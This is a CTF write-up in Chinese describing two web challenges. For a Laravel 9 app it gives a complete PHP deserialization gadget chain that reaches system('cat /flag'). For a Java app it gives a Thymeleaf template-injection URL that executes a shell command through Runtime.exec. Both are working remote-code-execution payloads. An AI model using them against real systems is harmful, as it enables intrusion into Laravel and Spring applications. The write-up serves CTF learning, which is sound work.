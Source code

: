 ### Just Kidding

+++

先用dirsearch扫一下，发现`/www.zip`
下载下来源码，本地构建了个环境
联系到题目说的`Laravel`，很明显就是一个关于Laravel的框架题了，先去google了一下`Laravel 9.12.2 exploit`没找到，看了下最新的是9.8
于是想着自己对着教程挖挖洞，然后看ctfshow的Laravel挖7.x的洞的视频，还是有很多地方有些不一样，于是就放弃了
如果是自己挖的话，题目应该不会出这么快
最后还是去看来下9.8的链子，一个最新的rce链子再本地用的时候，惊喜的发现弹出来了计算器
最终的exploit

```php
<?php
namespace Faker{
    class Generator{
        protected $providers = [];
        protected $formatters = [];
        function __construct()
        {
            $this->formatter = "dispatch";
            $this->formatters = 9999;
        }

    }
}

namespace Illuminate\Broadcasting{
    class PendingBroadcast
    {
        public function __construct()
        {
            $this->event = "cat /flag";
            $this->events = new \Faker\Generator();
        }
    }
}

namespace Symfony\Component\Mime\Part{
    abstract class AbstractPart
    {
        private $headers = null;
    }
    class SMimePart extends AbstractPart{
        protected $_headers;
        public $inhann;
        function __construct(){
            $this->_headers = ["dispatch"=>"system"];
            $this->inhann = new \Illuminate\Broadcasting\PendingBroadcast();
        }
    }
}


namespace{
    $a = new \Symfony\Component\Mime\Part\SMimePart();
    $ser = preg_replace("/([^\{]*\{)(.*)(s:49.*)(\})/","\\1\\3\\2\\4",serialize($a));
    echo base64_encode(str_replace("i:9999","R:2",$ser));
}
```

目前跟着找链子还勉强能跟着，但其实很多地方还是不太了解，所以等学了反序列化再来尝试自己复盘7.x的链子和这条链子吧

+++

## Challenger

这道题是`Thymeleaf模板注入`

给了jar附件，直接解压或者反编译都可

发现`/eval`路由下存在`lang`变量可控，并且返回了`lang`

payload：

```text
/eval?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22cat flag%22).getInputStream()).next()%7d__::.
```

不会java(T_T)

+++

想复盘一下`博学多闻的花花`和`QRCode Maker`但实在是无从下手，先学习吧...











